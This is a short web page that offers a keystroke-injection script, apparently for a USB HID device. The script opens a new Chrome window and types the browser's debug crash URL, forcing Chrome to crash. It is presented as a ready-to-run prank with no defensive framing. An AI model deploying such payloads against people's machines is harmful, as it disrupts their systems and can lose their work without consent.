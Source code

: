 <h1>COSC</h1>
<h2>Chrome Operating System Crasher</h2>
<h5>This simple program will induce a browser crash (for realz) by typing a special link into the address bar.</h5>

<pre><code>
DELAY 500
CTRL n
DELAY 100
STRING chrome://inducebrowsercrashforrealz
DELAY 50
ENTER
</pre></code>

<!-- Start of WebFreeCounter Code -->
<h4>You are visitor number:</h4><a href="https://www.webfreecounter.com/" target="_blank"><img src="https://www.webfreecounter.com/hit.php?id=gufapdd&nd=6&style=5" border="0" alt="web counter"></a>
<!-- End of WebFreeCounter Code -->